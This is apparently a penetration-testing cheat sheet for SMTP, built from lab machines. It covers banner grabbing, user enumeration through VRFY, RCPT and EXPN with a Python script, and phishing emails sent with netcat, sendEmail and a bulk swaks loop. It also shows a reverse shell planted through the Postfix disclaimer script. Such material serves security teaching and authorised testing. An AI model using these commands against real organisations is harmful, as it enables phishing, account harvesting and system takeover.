

# SMTP/s - 25,465,587

## **SMTP Information** <a href="#basic-information" id="basic-information"></a>

**SMTP (Simple Mail Transfer Protocol)** is a TCP/IP protocol used in **sending** and receiving **e-mail**. However, since it is limited in its ability to queue messages at the receiving end, it is usually used with one of two other protocols, POP3 or IMAP, that let the user save messages in a server mailbox and download them periodically from the server.

In other words, **users typically use** a program that uses **SMTP for sending e-mail** and either **POP3 or IMAP for receiving** e-mail. On Unix-based systems, **sendmail** is the most widely-used SMTP server for e-mail. A commercial package, Sendmail, includes a POP3 server. **Microsoft Exchange** includes an SMTP server and can also be set up to include POP3 support. From [here](https://whatis.techtarget.com/definition/SMTP-Simple-Mail-Transfer-Protocol).

**Default port:** 25,465(ssl),587(ssl)

```
PORT   STATE SERVICE REASON  VERSION
25/tcp open  smtp    syn-ack Microsoft ESMTP 6.0.3790.3959
```

### EMAIL Headers <a href="#email-headers" id="email-headers"></a>

If you have the opportunity to **make the victim send you an emai**l, do it because **you could learn about the internal network topology** of the victim seeing the headers of the mail.

You can also get an email from an SMTP server trying to **send to that server an email to a non-existent address** (because the server will send to the attacker an NDN mail). But, be sure that you send the email from an allowed address (check the SPF policy) and that you can receive NDN messages.

You should also try to **send different contents because you can find more interesting information** on the headers like: `X-Virus-Scanned: by av.domain.com` You should send the EICAR test file. Detecting the **AV** may allow you to exploit **known vulnerabilities.**

### **SMTP Commands**

Here is a list of SMTP commands:&#x20;



## Basic actions <a href="#basic-actions" id="basic-actions"></a>

### **Banner Grabbing/Basic connection** <a href="#banner-grabbing-basic-connection" id="banner-grabbing-basic-connection"></a>

**SMTP:**

```
nc -vn <IP> 25
```

**SMTPS**:

SSL/TLS without **starttls** command

```
openssl s_client -crlf -connect smtp.mailgun.org:465 
```

SSL/TLS with **starttls** command:

```
openssl s_client -starttls smtp -crlf -connect smtp.mailgun.org:587
```

### Finding MX servers of an organization <a href="#finding-mx-servers-of-an-organisation" id="finding-mx-servers-of-an-organisation"></a>

```
dig +short mx google.com
```

### Enumeration <a href="#enumeration" id="enumeration"></a>

```
nmap -p25 --script smtp-commands 10.10.10.10
```

### SMTP User Enumeration

We can enumerate users:

```bash
 smtp-user-enum -M RCPT -U test-users.txt -t 10.10.10.77
```

### NTLM Authentication - Information Disclosure <a href="#ntlm-auth-information-disclosure" id="ntlm-auth-information-disclosure"></a>

If the server supports NTLM authentication (Windows) you can obtain sensitive information like \versions. More info [**here**](https://medium.com/@m8r0wn/internal-information-disclosure-using-hidden-ntlm-authentication-18de17675666).

```
username@kali: telnet example.com 587 
220 example.com SMTP Server Banner 
>> HELO 
250 example.com Hello [x.x.x.x] 
>> AUTH NTLM 334 
NTLM supported 
```

**This can be automated with** this with **nmap** plugin `smtp-ntlm-info.nse`

### Sniffing <a href="#sniffing" id="sniffing"></a>

Check if you sniff some passwords from the packets to port 25​

## Username Bruteforce Enumeration <a href="#username-bruteforce-enumeration" id="username-bruteforce-enumeration"></a>

**Authentication is not always needed**

### RCPT TO <a href="#rcpt-to" id="rcpt-to"></a>

We can use the **RCP TO** command to enumerate valid users:

```
$ telnet 10.0.10.10 25
Trying 10.0.10.10...
Connected to 10.0.10.10.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO x
250 myhost Hello [10.0.0.99], pleased to meet you
MAIL FROM:test@test.org
250 2.1.0 test@test.org... Sender ok
RCPT TO:test
550 5.1.1 test... User unknown
RCPT TO:admin
550 5.1.1 admin... User unknown
RCPT TO:wixnic
250 2.1.5 wixnic... Recipient ok
```

If it complains about the syntax use `<>` on the email, example: `<username@somedomain.com>`

### VRFY <a href="#vrfy" id="vrfy"></a>

We can also use the **VRFY** command to verify email addresses:

```
$ telnet 10.0.0.1 25
Trying 10.0.0.1...
Connected to 10.0.0.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO
501 HELO requires domain address
HELO x
250 myhost Hello [10.0.0.99], pleased to meet you
VRFY root
250 Super-User <root@myhost>
VRFY blah
550 blah... User unknown
```

If it complains about the syntax use `<>` on the email, example: `<username@somedomain.com>`

Python user enumeration script:

```python
#!/usr/bin/python  
  
import socket  
import sys  
  
if len(sys.argv) != 2:  
print "Usage: smtp-vrfy.py <username>"  
sys.exit(0)  
  
# Create a Socket  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
  
# Connect to the Server  
connect = s.connect(('10.10.14.13',25))  
  
# Receive the banner  
banner = s.recv(1024)  
  
print banner  
  
# VRFY a user  
s.send('VRFY ' + sys.argv[1] + '\r\n')  
result = s.recv(1024)  
  
print result  
  
# Close the socket  
s.close()
```

### EXPN <a href="#expn" id="expn"></a>

Alternatively, we could use the **EXPN** command to enumerate membership of a mailing list:

```
$ telnet 10.0.10.1 25
Trying 10.0.10.1...
Connected to 10.0.10.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO
501 HELO requires domain address
HELO x
EXPN test
550 5.1.1 test... User unknown
EXPN root
250 2.1.5 <ed.williams@myhost>
EXPN sshd
250 2.1.5 sshd privsep <sshd@mail2>
```

If it complains about the syntax use `<>` on the email, example: `<username@somedomain.com>`

Extracted from: [https://research.nccgroup.com/2015/06/10/username-enumeration-techniques-and-their-value/](https://research.nccgroup.com/2015/06/10/username-enumeration-techniques-and-their-value/)

### Automated User Enumeration

​We can use `smtp-user-enum.pl` with the syntax below:

```
sudo perl smtp-user-enum.pl -M VRFY -U /usr/share/seclists/Usernames/Names/names.txt -t 192.168.211.137
```

Here is an example:



## DSN Reports <a href="#dsn-reports" id="dsn-reports"></a>

**Delivery Status Notification Reports**: If you send an **email** to an organization to an **invalid address**, the organization will notify that the address was invalided by sending a **mail back to you**. **Headers** of the returned email will **contain** possible **sensitive information.**

## Sending an Email from a Linux console

Generally, we want to send emails to perform `phishing`. Like getting the victim to clicking the link that we sent.

First, connect to the service:

```
nc -v <IP> 25
telnet <IP> 25
```

When we can send and email with the following commands:

```shell
# 1. HELO
HELO test
# 2. RECEIVE A 250 RESPONSE
# 3. SPECIFY WHO'S GOING TO SEND THE EMAIL
MAIL FROM: it@domain.off
# 4. SPECIFY THE RECIPIENT
RCPT TO: brian.moore@domain.off
# 5. SPECIFY THE DATA/MESSAGE
DATA
# 6. WRITE THE MESSAGE
<YOUR_MESSAGE_HERE> (YOU MAY SPECIFY A LINK SO THAT THE VICTIM CLICKS ON IT)
# 7. EXIT WITH QUIT
QUIT
```

Check if the user clicked on it by viewing the headers of your HTTP server:

```
nc -lvp 80
python3 -m http.server 80
python2 -m SimpleHTTPServer 80
```

### sendmail

```bash
sendEmail -t itdept@victim.com -f techsupport@bestcomputers.com -s 192.168.8.131 -u Important Upgrade Instructions -a /tmp/BestComputers-UpgradeInstructions.pdf
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing in a message:  
- First line must be received within 60 seconds.  
- End manual input with a CTRL-D on its own line.

​IT Dept,​

We are sending this important file to all our customers. It contains very important instructions for upgrading and securing your software. Please read and let us know if you have any problems.

​Sincerely,
```

```bash
sendEmail -f username@megabank.com -t nico@megabank.com -u "Invoice Attached" -m "You are overdue payment" -a invoice.rtf -s 10.10.10.77 -v
```

These are the options:

- f: from address, can be anything as long as the domain exists
- t: to address, nico@megabank.com
- u: subject
- m: body
- a: attachment
- s: smtp server
- v: verbose


### swaks

swaks one-liner:

```bash
 swaks --to $(cat emails.txt | tr '\n' ',' | less) --from test@sneakymailer.htb --header "Subject: test" --body "please click here http://10.10.14.42/" --server 10.10.10.197
```

swaks small while loop:

```bash
while read email; do
	echo "[+] Sending email from $email"
	swaks --from support@sneakymailer.htb --to $email --header 'Subject: Register in the portal' --body 'http://10.10.14.23/pypi/register.php' --server sneakycorp.htb >/dev/null
done < emails.txt
```

## Abuse Common SMTP Services  <a href="#what-about-subdomains" id="what-about-subdomains"></a>

### Abuse Postfix&#x20;

The file `/etc/postfix/disclaimer_addresses` can contain email addresses. When any of these addresses send or recieve an email the following file gets executed `/etc/postfix/disclaimer`. The file takes the contents of `/etc/postfix/disclaimer.txt` and appends it to the emails.

If you're your current user is a member of the `filter` group, you might be able to edit the script `/etc/postfix/disclaimer` and insert a malicious code or a reverse shell.

We can setup a listener:

```
sudo nc -lvp 80
```

Then you can send an email to the target:

```
HELO test
MAIL FROM: it@domain.off
RCPT TO: brian.moore@domain.off
DATA

GIVE ME A SHELL PLEASE

.

QUIT
```

Now check your shell:

```
nc -lvp 80

# DID YOU RECEIVE A CONNECTION?
```

# SMTP Receive Emails

We can use a script to receive emails such as the following:

```python
#!/usr/bin/env python 

import smtpd
import asyncore

server = smtpd.DebuggingServer(('0.0.0.0', 25), None)

asyncore.loop()
```

Once we run this script and the victim/target has send us an email, we could receive it:

```sh
root@kali# ./smtp.py 
---------- MESSAGE FOLLOWS ----------
Date: Wed, 12 Jun 2019 21:34:58 +0100
To: cancelations@no-reply.flujab.htb
From: Nurse Julie Walters <DutyNurse@flujab.htb>
Subject: Flu Jab Appointment - Ref:
Message-ID: <05de45aff688c618655497db5cd705e2@freeflujab.htb>
X-Mailer: PHPMailer 5.2.22 (https://github.com/PHPMailer/PHPMailer)
MIME-Version: 1.0
Content-Type: text/plain; charset=iso-8859-1
X-Peer: 10.10.10.124

    CANCELLATION NOTICE!
  ________________________
    
    VACCINATION
    Routine Priority
    ------------------
    REF    : NHS-000-000-0000    
    Code   : Influ-022
    Type   : Injection
    Stat   : CANCELED 
    LOC    : Crick026 
  ________________________

  Your flu jab appointment has been canceled.
  Have a nice day,

  Nurse Julie Walters
  Senior Staff Nurse
  Cricklestone Doctors Surgery
  NHS England.
  

------------ END MESSAGE ------------
```

# SMTP Exploits

There some software/services such as Exim which do have vulnerablities that can be exploited for [remote code execution (RCE)](https://www.exploit-db.com/exploits/45671) or even local privilege escalation such as [CVE-2016-1531](https://www.exploit-db.com/exploits/39549).